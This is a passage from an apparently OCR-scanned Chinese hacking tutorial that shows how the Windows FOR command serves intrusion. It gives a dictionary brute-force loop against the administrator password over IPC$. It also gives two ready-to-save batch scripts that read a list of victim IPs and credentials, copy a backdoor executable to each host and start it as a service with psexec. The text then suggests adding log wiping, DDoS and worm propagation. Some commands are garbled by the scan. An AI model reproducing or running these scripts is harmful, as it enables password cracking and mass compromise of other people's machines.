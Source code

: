 在以上例子中，\%I 和 PATH 可用其他有效数值代替。\%~ 语法
用一个有效的 FOR 变量名终止。选取类似 \%I 的大写变量名
比较易读，而且避免与不分大小写的组合键混淆。

以上是MS的官方帮助，下面我们举几个例子来具体说明一下For命令在入侵中的用途。

sample2：

利用For命令来实现对一台目标Win2k主机的暴力密码破解。
我们用net use \ipipc$ "password" /u:"administrator"来尝试这和目标主机进行连接，当成功时记下密码。
最主要的命令是一条：for /f i\% in (dict.txt) do net use \ipipc$ "i\%" /u:"administrator"
用i\%来表示admin的密码，在dict.txt中这个取i\%的值用net use 命令来连接。然后将程序运行结果传递给find命令－－
for /f i\%\% in (dict.txt) do net use \ipipc$ "i\%\%" /u:"administrator"|find ":命令成功完成">>D:ok.txt ，这样就ko了。

sample3：

你有没有过手里有大量肉鸡等着你去种后门＋木马呢？，当数量特别多的时候，原本很开心的一件事都会变得很郁闷：）。文章开头就谈到使用批处理文件，可以简化日常或重复性任务。那么如何实现呢？呵呵，看下去你就会明白了。

主要命令也只有一条：（在批处理文件中使用 FOR 命令时，指定变量使用 \%\%variable）
@for /f "tokens=1,2,3 delims= " \%\%i in (victim.txt) do start call door.bat \%\%i \%\%j \%\%k
tokens的用法请参见上面的sample1，在这里它表示按顺序将victim.txt中的内容传递给door.bat中的参数\%i \%j \%k。
而cultivate.bat无非就是用net use命令来建立IPC$连接，并copy木马＋后门到victim，然后用返回码（If errorlever =）来筛选成功种植后门的主机，并echo出来，或者echo到指定的文件。
delims= 表示vivtim.txt中的内容是一空格来分隔的。我想看到这里你也一定明白这victim.txt里的内容是什么样的了。应该根据\%\%i \%\%j \%\%k表示的对象来排列，一般就是 ip password username。
代码雏形：
--------------- cut here then save as a batchfile(I call it main.bat ) ---------------------------
@echo off
@if "\%1"=="" goto usage
@for /f "tokens=1,2,3 delims= " \%\%i in (victim.txt) do start call IPChack.bat \%\%i \%\%j \%\%k
@goto end
:usage
@echo run this batch in dos modle.or just double-click it.
:end
--------------- cut here then save as a batchfile(I call it main.bat ) ---------------------------


------------------- cut here then save as a batchfile(I call it door.bat) -----------------------------
@net use \\%1ipc$ \%3 /u:"\%2"
@if errorlevel 1 goto failed
@echo Trying to establish the IPC$ connection …………OK
@copy windrv32.exe\\%1admin$system32 && if not errorlevel 1 echo IP \%1 USER \%2 PWD \%3 >>ko.txt
@psexec \\%1 c:winntsystem32windrv32.exe
@psexec \\%1 net start windrv32 && if not errorlevel 1 echo \%1 Backdoored >>ko.txt
:failed
@echo Sorry can not connected to the victim.
----------------- cut here then save as a batchfile(I call it door.bat) --------------------------------
这只是一个自动种植后门批处理的雏形，两个批处理和后门程序（Windrv32.exe）,PSexec.exe需放在统一目录下.批处理内容
尚可扩展,例如:加入清除日志+DDOS的功能,加入定时添加用户的功能,更深入一点可以使之具备自动传播功能(蠕虫).此处不多做叙述,有兴趣的朋友可自行研究.

No.2
